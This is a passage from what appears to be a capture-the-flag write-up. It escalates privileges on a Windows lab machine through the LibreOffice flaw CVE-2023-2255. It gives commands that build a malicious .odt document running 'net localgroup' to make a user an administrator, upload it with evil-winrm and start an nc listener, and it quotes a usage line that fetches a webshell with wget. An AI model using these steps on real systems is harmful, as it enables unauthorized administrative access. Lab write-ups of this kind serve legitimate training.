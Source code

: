Searching for an exploit using Google, we found the following:

https://github.com/elweth-sec/CVE-2023-2255

If we read the exploit documentation, we will see the following usage:

```shell
python3 CVE-2023-2255.py --cmd 'wget https://raw.githubusercontent.com/elweth-sec/CVE-2023-2255/main/webshell.php' --output 'exploit.odt'
```

Now we need to find a directory where the user might be accessing files. Enumerating the directories I found the suspicious C:\Important Documents folder.

Knowing this, we can change the command to create an exploit file to add the user maya to the local admins group:

```shell
git clone https://github.com/elweth-sec/CVE-2023-2255.git
cd CVE-2023-2255

python3 CVE-2023-2255.py --cmd 'net localgroup Administradores maya /add"' --output 'exploit.odt'
```

Now we need to find a directory where the user might be accessing files. Enumerating the directories I found the suspicious C:\Important Documents folder.

After that, we will move nc.exe and the exploit.odt file using evil-winrm upload function and then run it:

```shell
# Upload the exploit
cd "C:\Important Documents"
upload exploit.odt

# Start nc listener
nc -lvnp 8080

# Using the exploit
./exploit.odt
```

Wait for the exploit to have get run.

Then check if the user maya was successfully added to Administradores:

```shell
net user maya
```

```shell
User name                    maya
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2024-04-12 3:16:20 AM
Password expires             Never
Password changeable          2024-04-12 3:16:20 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2024-11-18 4:26:57 AM

```